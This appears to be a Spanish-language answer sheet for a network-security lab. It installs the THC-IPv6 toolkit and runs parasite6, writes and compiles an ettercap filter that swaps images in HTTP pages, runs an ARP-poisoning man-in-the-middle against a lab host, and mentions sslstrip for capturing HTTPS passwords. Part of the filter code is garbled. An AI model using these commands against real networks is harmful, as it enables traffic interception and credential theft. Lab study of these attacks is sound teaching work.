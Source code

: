 Para instalar parasite6:

	http://www.aldeid.com/wiki/THC-IPv6-Attack-Toolkit#Installation

Ejecutar los comandos:

	wget --no-check-certificate http://www.thc.org/releases/thc-ipv6-1.8.tar.gz
	tar xzvf thc-ipv6-1.8.tar.gz
	cd thc-ipv6-1.8/
	make
	sudo make install

Una vez instalado:

	# echo 1 > /proc/sys/net/ipv6/conf/all/forwarding
	# parasite6 -l eth0

### j)
Utilizando un filtro ettercap modifique las imágenes de las páginas http visitadas por una determinada máquina del laboratorio.

Creo el filtro:

	if (ip.proto == TCP && top.arc ==80){
		replace("img src=", "img src\"http://www.diesl.es/WebRoot/StoreES2/Shops/eb0383/5114/DABA/05C5/5876/1B91/AC10/1416/11FA/tux.jpg\"");
		replace("IMG SRC=", "img src=\"http://www.diesl.es/WebRoot/StoreES2/Shops/eb0383/5114/DABA/05C5/5876/1B91/AC10/1416/11FA/tux.jpg\"");
		msg("Filter Ran. \n");
	}

Y luego lo compilo:

	$ etterfilter filtro.filter -o filtro.ef

Luego lo ejecuto:

	# ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.37/ -i wlp1s8 -F filtro.ef


### k)
Utilizando el ettercap-gtk trate de capturar el password de una sesión https.

Activamos el script sslstrip, depues de haber descomentado las lineas en el fichero de configuracion.

### l)
Pruebe alguna herramienta y técnica de detección del sniffing.

	scan_poisoner
	find_ettercap
